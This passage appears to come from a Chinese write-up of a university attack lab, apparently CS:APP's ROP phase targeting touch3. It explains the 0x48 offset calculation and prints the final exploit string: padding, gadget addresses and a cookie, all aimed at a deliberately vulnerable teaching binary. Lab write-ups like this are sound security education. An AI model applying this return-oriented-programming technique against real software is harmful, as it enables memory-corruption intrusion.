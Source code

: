 其中rsi 保存的是偏移量，这个值是怎么计算的呢，就是我们在字符串之前所有指令所占的长度，一共0x48
![Alt text](image-4.png)
这是知乎上大佬画的图，讲的非常详细，除去返回地址的指令（因为pop会使rsp+0x8），一共有9条指令需要放到栈上，所以我们要填充0x48个字节，然后再填充字符串的地址，最后再填充touch3的地址就可以了

最后的结果如下：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```
![Alt text](image-5.png)

至此结束